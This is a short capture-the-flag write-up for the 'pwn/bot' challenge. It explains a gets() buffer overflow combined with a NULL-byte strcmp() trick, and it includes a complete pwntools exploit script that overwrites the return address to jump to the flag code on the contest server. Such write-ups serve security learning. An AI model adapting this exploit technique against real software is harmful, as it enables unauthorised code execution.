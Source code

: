 +++
authors = ["laozi"]
title = "pwn/bot"
date = "2023-02-12"
+++

### The challenge

This was a simple buffer overflow. The program runs `gets()` which
is a huge vulnerability since it doesn't have the size specified.
There's also a bug with `strcmp()` that stops reading the input after
a NULL byte. So the problem asks for your input and then compares it
with a few strings before returning. All you have to do is write one
of the strings terminated with a NULL byte then write the buffer
overflow. There was a "get flag" section of the code so I just overwrote
the return address with that section:

```python
#!/usr/bin/env python3
from pwn import *
elf = ELF("./bot_patched")
context.terminal = ['tmux', 'splitw', '-h']
context.binary = elf
debug_script = '''
'''
def conn():
    if not args.REMOTE:
        p = process([elf.path])
        if args.D:
            gdb.attach(p, gdbscript=debug_script)
    else:
        p = remote("lac.tf", 31180)
    return p
p = conn()
p.recv()
payload = b"may i have the flag?\0"
payload += b"A"*(64-len(payload))
payload += b'BBBBBBBB'
payload += p64(0x40129a)
p.sendline(payload)
p.interactive()
```
